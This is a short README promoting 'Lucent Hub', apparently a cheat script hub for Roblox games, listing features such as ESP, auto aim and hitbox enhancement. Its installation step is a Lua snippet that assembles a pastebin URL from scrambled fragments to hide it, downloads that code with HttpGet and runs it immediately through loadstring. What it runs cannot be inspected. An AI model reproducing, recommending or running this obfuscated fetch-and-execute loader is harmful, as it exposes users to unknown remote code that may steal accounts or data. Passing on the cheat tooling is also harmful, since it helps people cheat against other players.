 # Lucent Hub

# Supported Games

| Game Name          | Description                       | Script Features                    | Status   |
|--------------------|-----------------------------------|------------------------------------|----------|
| Murder vs Sheriff  |____     [██████████] 100%         | Hitbox enhancement, ESP, Auto aim  | Stable   |
| 99 Nights in the Forest |    [█---------] 15%          | coming soon...                     | Beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |

# Installation
```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
